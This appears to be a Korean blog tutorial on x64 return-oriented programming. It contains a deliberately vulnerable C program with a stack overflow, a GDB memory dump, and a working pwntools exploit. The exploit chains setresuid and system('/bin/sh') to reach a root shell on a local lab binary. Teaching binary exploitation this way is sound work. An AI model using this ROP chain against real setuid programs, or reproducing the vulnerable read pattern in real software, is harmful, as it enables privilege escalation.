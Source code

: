 ```yaml
---
layout: post
title: "x64 Return Oriented Programming"
categories: Exploit Stack
---
```


ROP를 통해 메모리 영역 할당(mmap)하거나 할당된 메모리 영역의 권한을 변경(mprotect)하여 공격하는 방법.  

x64의 경우 호출 규약 때문에 피연산자가 매우 중요함.  

x64의 ROP에서 POP 명령의 역할  
1. ESP의 레지스터 값을 증가시켜 함수를 연속적으로 호출
1. 호출할 함수에 전달될 인자 값을 레지스터에 저장

Ex)  
호출할 함수의 1 번째 인자 값 저장: "pop rdi; ret"  
호출할 함수의 2 번째 인자 값 저장: "pop rsi; ret"  
호출할 함수의 1,3 번째 인자 값 저장: "pop rdi; pop rdx; ret"

## **Proof of Concept**

```c
// Vuln Code
// gcc rop.c -o rop -ldl
#define _GNU_SOURCE
#include <stdio.h>
#include <unistd.h>
#include <dlfcn.h>
 
void vuln(){
    char buf[50];
    void (*printf_addr)() = dlsym(RTLD_NEXT, "printf");
    printf("Printf() address : %p\n",printf_addr);
    read(0, buf, 256);
}
 
void main(){
    seteuid(getuid());
    write(1,"Hello ROP\n",10);
    vuln();
}
```

"A"*72 입력 시 Overflow 발생.

```
gdb-peda$ x/24gx $rbp
0x7fffffffe3c0:	0x4141414141414141	0x000000000040070a
0x7fffffffe3d0:	0x00000000004007e0	0x00007ffff7829830
0x7fffffffe3e0:	0x0000000000000000	0x00007fffffffe4b8
```

## **Exploit Code**
```python
# Exploit Code
import sys
from pwn import *

p = process('./rop')
#gdb.attach(p)
print(p.recvline())
printf_addr = int(p.recvline().split(' ')[3],16)
print('printf_addr: '+str(printf_addr))

libBase = printf_addr - 0x55800
system = libBase + 0x45390
setresuid = libBase + 0xcd570
binsh = libBase + 0x18cd57
pop_rdi_ret = 0x00400843
pop_rsi_ret = 0x00400841
pop_rdx_pop_rsi_ret_offset = 0x1150c9

payload = "A"*72
payload += p64(pop_rdi_ret)
payload += p64(0)
payload += p64(libBase + pop_rdx_pop_rsi_ret_offset)
payload += p64(0)
payload += p64(0)
payload += p64(setresuid)
payload += p64(pop_rdi_ret)
payload += p64(binsh)
payload += p64(system)

p.sendline(payload)
p.interactive()
```

## **Exploit**
```shell
pwner@bs-virtual-machine:~$ python exploit.py 
[+] Starting local process './rop': pid 3166
Hello ROP

printf_addr: 140605686425600
[*] Switching to interactive mode
$ id
uid=0(root) gid=1001(pwner) groups=1001(pwner)
```

**Refereces**  
[https://lazenca.net/display/TEC/02.ROP%28Return+Oriented+Programming%29-x64](https://lazenca.net/display/TEC/02.ROP%28Return+Oriented+Programming%29-x64)

